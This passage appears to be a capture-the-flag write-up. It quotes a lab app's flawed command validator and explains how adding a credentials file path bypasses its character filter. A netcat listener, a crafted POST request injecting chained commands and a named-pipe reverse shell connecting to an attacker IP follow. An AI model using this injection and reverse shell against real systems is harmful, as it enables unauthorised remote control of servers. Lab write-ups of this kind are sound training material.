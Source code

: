 App.py (which handles the servers' requests) had the following piece in it's source code:
```python
CREDS = "/home/nitish/.dev/creds.txt"

RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]


def validate(cmd):
    if CREDS in cmd and "cat" not in cmd:
        return True

    try:
        for i in RCE:
            for j in cmd:
                if i == j:
                    return False
        return True
    except Exception:
        return False

```

By reading this we can understand that if we add `"/home/nitish/.dev/creds.txt"` to our command injection,
while not having the `cat` command at the same time, we will be able to bypass the restrictions we encountered earlier, use all characters and establish a reverse shell.

First of all, we must listen for incoming connections on our Kali machine:
```bash
nc -nlvp 7777
```

Next, we try to establish the reverse shell. `%26%26` is the URL encoding for `&&`,
which lets us bypass character blocking because `/home/nitish/.dev/creds.txt` is technically a part of the command:
```http
POST /wish HTTP/1.1
Host: ctf:7331
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf:7331/wish
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Connection: close
Upgrade-Insecure-Requests: 1

cmd=ls /tmp/backpipe p  %26%26 /home/nitish/.dev/creds.txt
```

Followed by this command to connect to my nc listener:
```
cmd=/bin/sh 0</tmp/backpipe | nc 192.168.1.103 443 1>/tmp/backpipe  %26%26 /home/nitish/.dev/creds.txt
```
